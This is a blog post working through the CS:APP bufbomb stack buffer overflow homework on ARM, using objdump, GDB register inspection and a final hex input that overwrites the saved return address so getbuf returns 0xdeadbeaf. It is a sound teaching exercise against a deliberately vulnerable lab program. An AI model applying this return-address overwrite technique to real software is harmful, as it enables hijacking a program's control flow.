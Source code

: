 ```yaml
---
title: Bufferoverflow Experiment (CSAPP)
date: 2013-11-02 22:00
layout: post
category: projects
comments: true
tags: disassembly gdb bufferoverflow arm RPi c
description: "
Recently I have been reading a book from CMU named 'Computer Systems: A Programmer's Perspectie'. It's a very interesting book and makes quite good illustrations. It's not difficult to understand but I noticed an interesting experiment in Chapter 3 homework about stack buffer overflow injection. Although the book mainly talked about IA32, I completed it on ARM with my Raspberry Pi.
" 
---
```


Recently I have been reading a book from CMU named *Computer Systems: A Programmer's Perspectie*. It's a very interesting book and makes quite good illustrations. It's not difficult to understand but I noticed an interesting experiment in Chapter 3 homework about stack buffer overflow injection. Although the book mainly talked about IA32, I completed it on ARM with my Raspberry Pi.

*The question was a source file given in [bufbomb.c](http://csapp.cs.cmu.edu/public/1e/ics/code/asm/bufbomb.c). In the program procedure, test() calls getbuf() which calls getxs() and returns 1 constantly. Getxs() gets inputs from command line in hex format until meets an enter event. The requirement is to make getbuf() returns 0xdeadbeaf ( or other random hex strings actually ) instead of the constant 1.*

#####Use objdump to disassemble the binary file

In order to use GDB to learn about its register values and memory addresses. Use `-g` option to build the source file.

	gcc -g -o bufbomb bufbomb.c

Then 

	objdump -d bufbomb > disassemble.s

```asm
00008590 <getbuf>:
    8590:   e92d4800    push    {fp, lr}
    8594:   e28db004    add fp, sp, #4
    8598:   e24dd010    sub sp, sp, #16
	...	    
    85a4:   ebffffa4    bl  843c <getxs>
    85a8:   e3a03001    mov r3, #1
    85ac:   e1a00003    mov r0, r3
    85b0:   e24bd004    sub sp, fp, #4
    85b4:   e8bd8800    pop {fp, pc}

000085b8 <test>:
    85b8:   e92d4800    push    {fp, lr} 
    85bc:   e28db004    add fp, sp, #4
    85c0:   e24dd008    sub sp, sp, #8
    ...
    85d0:   ebffffee    bl  8590 <getbuf>
    85d4:   e50b0008    str r0, [fp, #-8]
    85d8:   e59f3014    ldr r3, [pc, #20]   ; 85f4 <test+0x3c>
    85dc:   e1a00003    mov r0, r3
    85e0:   e51b1008    ldr r1, [fp, #-8]
    85e4:   ebffff57    bl  8348 <_init+0x20>
    ...
```
        
lr in getbuf() would be storing `0x85d4` (this will also be verified in the GDB debugger) as its the next address to `bl getbuf`, when the callee returns, the return value would be put to `[fp, #-8]` and retrieved to r1 register. (See Step 3)

A stack-frame graph could be got from the disassembly codes. It should be noticed that in APCS (Arm Procedure Call Standard), r0 register is chosen to store the return value of functions. So It's not necessary to draw all of the several funtions as obviously the operation required would be in the connections in test() and getbuf(). 

[![stack-frame.jpg]({{BASE_PATH}}/images/csapp/stack-frame.jpg)]({{BASE_PATH}}/images/csapp/stack-frame.jpg)

<br />

#####Use GDB to get values of fp registers (lr registers can be got from either disassembly codes or GDB debugger)

Set breakpoints before each function call so that we can get the lr and fp values of the caller's function frame and pushed onto the callee's stack.

Starting program: /home/pi/workspace/test/bufbomb/bufbomb 

```c
Breakpoint 18, main () at bufbomb.c:63
63	    *space = 0; 
(gdb) print $fp
$39 = (void *) 0xbefff5f4  
(gdb) c
Continuing.

Breakpoint 4, test () at bufbomb.c:48
48	    printf("Type Hex string:");
(gdb) p $fp
$40 = (void *) 0xbeffeff4  
(gdb) p /x *(0xbeffeff4 - 0x4) 
$42 = 0xbefff5f4
(gdb) c
Continuing.

Breakpoint 3, getbuf () at bufbomb.c:41
41	    getxs(buf);
(gdb) p $fp
$44 = (void *) 0xbeffefe4 
(gdb) p /x *(0xbeffefe4) 
$46 = 0x85d4 ; This is exactly the same from the dissembly code: 85d4:   e50b0008    str r0, [fp, #-8]
```

If a GDB debugger tool is not preferred, a printf() function will also be useful. But it will require an inline asm code in the c source file to get the register values. For example, put this code:

```c
int fp_value;
__asm__ __volatile__("mov [result], fp\n": [result]"=r"(fp_value));
printf("fp register value: 0x%.8x\n", fp_value);
```

in front of a function call process to get the caller's funtion pointer value. 

Now we can add the addresses and register values to the stack-frame graph above:

[![stack-frame2.jpg]({{BASE_PATH}}/images/csapp/stack-frame2.jpg)]({{BASE_PATH}}/images/csapp/stack-frame2.jpg)


<br />

#####Buffer overflow

The basic trick here is to modify the lr value on the stack of getbuf() to point to an address that by-pass the operation that sets r0, the return value of getbuf(), which is `1`, to `[fp - 0x4]` position of test() that is used to set r1 as the second parameter to `printf(format, ...)`. In order to change the lr value, we need to override it in a provided way. That is the **buffer overflow** we talking about here. `buf[12]` was defined and passed to getxs() with only the starter pointer without its length, which is unknow to the callee function. While there is no restriction of `*sp++`, it won't be long before the `*sp` reaches the fp pointer and modify its value.

[![stack-frame3.jpg]({{BASE_PATH}}/images/csapp/stack-frame3.jpg)]({{BASE_PATH}}/images/csapp/stack-frame3.jpg)

<br />

#####Result

Obviously, the input value could be:

	10 10 10 10 10 10 10 10 10 10 10 10 f4 ef ff be d8 85 00 00 00 00 00 00 af be ad de f4 f5 ff be 50 86 00

to get the result:

```c
(gdb) r
Starting program: /home/pi/workspace/test/bufbomb/bufbomb 
Type Hex string:10 10 10 10 10 10 10 10 10 10 10 10 f4 ef ff be d8 85 00 00 00 00 00 00 af be ad de f4 f5 ff be 50 86 00
getbuf returned 0xdeadbeaf
[Inferior 1 (process 2834) exited normally]
```

<br />

**Note: The process was done on the ARM platform, different platforms and compilers would require different input values as they might have different stack-frame structure and different addresses.**
